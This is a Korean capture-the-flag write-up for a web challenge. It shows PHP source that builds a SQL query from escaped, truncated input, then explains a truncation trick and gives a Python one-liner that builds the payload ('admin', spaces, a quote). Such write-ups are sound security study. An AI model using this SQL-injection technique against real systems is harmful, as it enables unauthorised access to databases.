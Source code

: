 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-12-02-42.png)


# **Write-Up**

view-source를 클릭해보면 \\는 없어지고, ' 는 ' 2번으로 바뀐 뒤 15글자까지 추출한다. 또한 where 절에서 ' 가 안닫혀있다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  if($_POST['id']){
    $_POST['id'] = str_replace("\\","",$_POST['id']);
    $_POST['id'] = str_replace("'","''",$_POST['id']);
    $_POST['id'] = substr($_POST['id'],0,15);
    $result = mysqli_fetch_array(mysqli_query($db,"select 1 from member where length(id)<14 and id='{$_POST['id']}"));
    if($result[0] == 1){
      solve(39);
    }
  }
?>
... 생략 ...
```

따라서 15번째에 ' 가 있다면 ''로 바뀌어도 15번째 까지는 ' 이라서 통과가 될 것이다.

```python
print('admin' + ' '*(14 - len('admin')) + '\'')

[Output]
admin         '
```

입력하여 점수를 획득하자.

![](images/2022-01-03-12-03-04.png)